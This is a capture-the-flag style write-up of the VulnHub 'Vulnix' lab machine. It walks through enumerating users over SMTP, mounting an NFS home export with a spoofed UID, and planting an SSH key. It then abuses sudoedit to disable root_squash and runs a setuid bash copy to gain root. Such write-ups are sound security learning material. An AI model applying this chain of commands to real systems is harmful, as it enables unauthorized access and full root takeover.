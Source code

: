 ﻿### Vulnix Writeup
So today it's the Vulnix machine by @rebootuser which you can find hosted at https://www.vulnhub.com/entry/hacklab-vulnix,48/

So we start off with the usual nmap scan and get a few random services and no web server on this one.
```
nmap -v -sV -Pn -n 192.168.147.158 
```

```
PORT     STATE SERVICE  VERSION                    
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)                    
25/tcp   open  smtp     Postfix smtpd                                                                 
79/tcp   open  finger   Linux fingerd                                                                 
110/tcp  open  pop3     Dovecot pop3d                                                                 
111/tcp  open  rpcbind  2-4 (RPC #100000)          
143/tcp  open  imap     Dovecot imapd                                                                 
512/tcp  open  exec     netkit-rsh rexecd          
513/tcp  open  login?                              
514/tcp  open  shell    Netkit rshd                
993/tcp  open  ssl/imap Dovecot imapd                                                                 
995/tcp  open  ssl/pop3 Dovecot pop3d                                                                 
2049/tcp open  nfs_acl  2-3 (RPC #100227)  
```
Some interesting things here, first off the nfs running on 2049 shows us a possible user named vulnix.
```
root@sushi:~# showmount -e 192.168.147.158
Export list for 192.168.147.158:
/home/vulnix *
```
So we check it on the SMTP and yes that is a valid user.
```
root@sushi:~# nc -nv 192.168.147.158 25
(UNKNOWN) [192.168.147.158] 25 (smtp) open

220 vulnix ESMTP Postfix (Ubuntu)
500 5.5.2 Error: bad syntax
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY crappy
550 5.1.1 <crappy>: Recipient address rejected: User unknown in local recipient table
^C
```
So what is in Vulnix's home folder? We try mounting it and if we force it to use nfs version 3 or lower we can see the UID and GID for the owner is 2008 which we will need in a second.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# ls -l
total 12
drwxr-xr-x 2 root root 4096 Dec 20 20:26 jail
drwxr-xr-x 2 root root 4096 Dec 20 20:27 opt
drwxr-x--- 2 2008 2008 4096 Sep  2  2012 vulnix
root@sushi:/mnt# cd vulnix
bash: cd: vulnix: Permission denied
```
So awesome we can't actually access the folder, but I'm assuming if we have a user named vulnix with the same UID then it won't be a problem.
```
root@sushi:/mnt# useradd -u 2008 vulnix
root@sushi:/mnt# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd vulnix
$ ls -lah
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep  2  2012 .
drwxr-xr-x 5 root   root   4.0K Mar 18 20:24 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```
Nothing really in there, lets create some ssh keys and add the public key to the vulnix users authorized_keys.
```
root@sushi:/# ssh-keygen                           
Generating public/private rsa key pair.            
Enter file in which to save the key (/root/.ssh/id_rsa):                                              
Enter passphrase (empty for no passphrase):        
Enter same passphrase again:                       
Your identification has been saved in /root/.ssh/id_rsa.                                              
Your public key has been saved in /root/.ssh/id_rsa.pub.                                              
The key fingerprint is:                            
SHA256:SsY11VtkZekosDWAc+sMetO6J5GLsnWAkQgdNxaTRAk root@sushi                                         
The key's randomart image is:                      
+---[RSA 2048]----+                                
|..E=O+  ..o. .o.+|                                
|. oo+o o + o...o |                                
| . o    = = .oo  |                                
|    o. o + ... . |                                
|   . .= S   .    |                                
|     +.* +       |                                
|     .+.=        |                                
|   ....+ .       |                                
|   .o  .+        |                                
+----[SHA256]-----+                                
root@sushi:~# cd /root/.ssh                              
root@sushi:~/.ssh# ls                              
id_rsa  id_rsa.pub  known_hosts                    
root@sushi:~/.ssh# su vulnix                       
$ cd /mnt/vulnix                                   
$ mkdir .ssh                                       
$ cd .ssh                                          
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtV4eYiSqrw0sfD2Plm+AFfS99c5BsN4Xc67xWiIcN9gqxk8V/x3AGEUwLNNuAPAu/+inDQkv5HdKJwL56cgKKzDpeNtVaMwd8z3Xx1mHercAeIjyyYdl5HHxDgId23QIfgGJByFTLM77tRuJCiCPG/2EaCaAaykaIiobKorI2ujc61Z3Guzja/DXzSzmnGzeG/zSopdkRuUHu1ywQqj2D8GoJob4SL67juspotBA2DBX37nPpOvvy0drqK0z6UlyUj+ChZh8c15zOftJJuD4pImXKKX5T/pxprockcpCyUAQNw2Q+Ug5KgMo6g9WvwNAKXMOgDWDT5DKuAqjgmm1/ root@sushi > authorized_keys                                             
$                                                  
```
And then we can ssh onto the box with the vulnix account nice.
```
root@sushi:~/.ssh# ssh vulnix@192.168.147.158      
The authenticity of host '192.168.147.158 (192.168.147.158)' can't be established.                    
ECDSA key fingerprint is SHA256:IGOuLMZRTuUvY58a8TN+ef/1zyRCAHk0qYP4wMViOAg.                          
Are you sure you want to continue connecting (yes/no)? yes                                            
Warning: Permanently added '192.168.147.158' (ECDSA) to the list of known hosts.                      
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)                                   

 * Documentation:  https://help.ubuntu.com/        

  System information as of Sun Mar 18 17:35:22 GMT 2018                                               

  System load:  0.0              Processes:           89                                              
  Usage of /:   90.2% of 773MB   Users logged in:     0                                               
  Memory usage: 7%               IP address for eth0: 192.168.147.158                                 
  Swap usage:   0%                                 

  => / is using 90.2% of 773MB                     

  Graph this data and manage this system at https://landscape.canonical.com/                          


The programs included with the Ubuntu system are free software;                                       
the exact distribution terms for each program are described in the                                    
individual files in /usr/share/doc/*/copyright.    

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                  
applicable law.                                    

vulnix@vulnix:~$ uname -a
Linux vulnix 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 athlon i386 GNU/Linux
```
So first off we check if this account can do anything with sudo, and we can run sudoedit on the exports file good deal.
```
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```
So looking at /etc/exports, we can disable the root_squashing for the vulnix home folder which will allow us to copy something like bash and give it setuid permissions. We could also add roots home folder to the /etc/exports with no_root_squash and echo in our ssh key to his authorized_keys and get root access that way.
```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,no_root_squash)
```
So the next step really tripped me up as I'm just not used to doing this for these vm's, but to get the config change to take effect we have to actually reboot the machine. Remember to unmount the home folder also or it will take forever. When it's back up, we mount the home directory again and copy over /bin/bash.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# cd vulnix
root@sushi:/mnt/vulnix# cp /bin/bash .
root@sushi:/mnt/vulnix# chmod 4777 bash
root@sushi:/mnt/vulnix# ls -lah                    
total 1.3M                                         
drwxr-x--- 4 vulnix vulnix 4.0K Mar 18 14:16 .     
drwxr-xr-x 5 root   root   4.0K Mar 18 21:09 ..    
-rwsrwxrwx 1 root   root   1.3M Mar 18 14:16 bash  
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout                       
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc                            
drwx------ 2 vulnix vulnix 4.0K Mar 18 13:35 .cache
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile                           
drwxr-xr-x 2 vulnix vulnix 4.0K Mar 18 13:34 .ssh  
```
Then back in our ssh session as the vulnix user, we just run bash in the home folder with the -p flag to preserve file permissions.
```
vulnix@vulnix:~$ id                                
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)                                                 
vulnix@vulnix:~$ ./bash -p                         
./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)
bash-4.4# id                                       
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)                            
bash-4.4# cd /root                                 
bash-4.4# ls                                       
trophy.txt                                         
bash-4.4# cat trophy.txt                           
cc614640424f5bd60ce5d5264899c3be                   
```
So that was pretty fun, having to reboot the machine was different and the rest of it was interesting learning a bit about and using nfs for the first time in awhile.  As always thanks to @VulnHub and the author @rebootuser for hard work.


